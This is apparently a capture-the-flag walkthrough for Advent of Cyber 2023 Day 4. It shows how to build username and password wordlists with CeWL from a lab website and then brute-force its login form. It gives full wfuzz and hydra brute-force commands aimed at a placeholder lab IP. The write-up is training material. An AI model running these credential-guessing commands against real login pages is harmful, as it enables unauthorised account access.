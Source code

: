 # Baby, it's CeWLd outside | Advent of Cyber 2023 | Day 4

## TL;DR of Day 4

This day is sort of continuation of last day, with today instead of blind brute forcing based on every combination, we can use content based wordlist for such tasks. Cewl(pronounced "cool") is one such tool that can crawl the provided website and create wordlists for us. We can combine it with tools like wfuzz to enumarate those combinations. Hydra can be used for this but you should know as much tools as possible as every tools has their own advantages and limitations.


## Walkthrough
Start the machine and then visit the IP in your browser directly. It should open a website for the `AntarctiCrafts`.

You can look around the website but there is nothing significant except loging page at /login.php as a Employee portal. We have no idea about the username and password here. Unlike other day we have two inputs to guess and if we go blind brute force then it will take almost forever to crack the username and password. You are welcome to try and let me know how many ages it took!

First let's set the target machine IP and environment varibale for ease of use
```bash
export IP=YOUR_MACHINE_IP
```

So what now? Let's pull up the first tool of the day, Cewl(cooooool). It basically crawls the website and linked pages to create dictionary based on the provided criteria.
Let's see two examples for our excercise.
```bash
cewl -d 0 -m 5 -w usernames.txt http://$IP/team.php --lowercase
cewl -d 2 -m 5 -w passwords.txt http://$IP --with-numbers
```
In here,
- `-d` is for depth of the linked sites and pages, we will keep it to 0 for username but we will keep it higher for our password quest.
- `-m` is for minimum characters and similarly `-x` for the maximum characters, we are not setting max limit in our example.
- `-w` is just for directing output to filename rather than printing on the console.
- `--lowercase` is self explanatory
- `--with-numbers` will include the numbers in the words
- there are others options which you can explore by running `cewl --help`

Now at this point you should have usernames.txt and passwords.txt ready. Let's bring the other tool of the day to sunlight. Welcome the wfuzz. It is short form of Web FUZZing. It can be used to enumarate the website for discovery of the hidden stuff. At the same time it can also be used to brute force username and passwords just like hydra.

We will be using the following command for our attack
```bash
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://$IP/login.php -d "username=FUZZ&password=FUZ2Z"
```

Let's explain some of stuff:
- `-c` for colorful output
- `-z` can be used to provide the input filename or other input methods, more can be found with `wfuzz --help` command.
- `--hs` is indication of unsuccessful attempt or rather more specifically to hide the attempt from printing.
- `-u` to provide the target URL.
- `-d` can be used to provide the parameters that needs to be fuzzed. Here you can use `2Z`, `3Z` if you have multiple inputs.
- `-t` is something not used in above example but is basically how many threads can be used to do the enumaration, more means faster. Default is 10. 


# Q1: What is the correct username and password combination? Format username:password

Now let it run for some time and it should give you the output based on your system configuration. It should provide you the username and password combination that can be used to login to the website. Use them and login on the site.

> Note: For answering the question format is username:password (just like the http basic auth)

# Q2: What is the flag?

Now we don't have flag immediately. So as per my habit I opened the source code and certainly it was there. Now more sane way would be to just click on the each mail and that should reveal the flag for you. Yeah the tasks are done.


## Task for you?
- Can we use hydra instead of the wfuzz? Ofcourse we can. Try on yourself and see if you get any success. For some lazy people here is the hydra command same as wfuzz for this task,

```bash
hydra -L usernames.txt -P passwords.txt -f -v $IP http-post-form "/login.php:username=^USER^&password=^PASS^:enter the correct credentials " -s 80 -t 40 -v
```


And with that one more day of learnign is done and dusted, See you guys tommorow for another new stuff.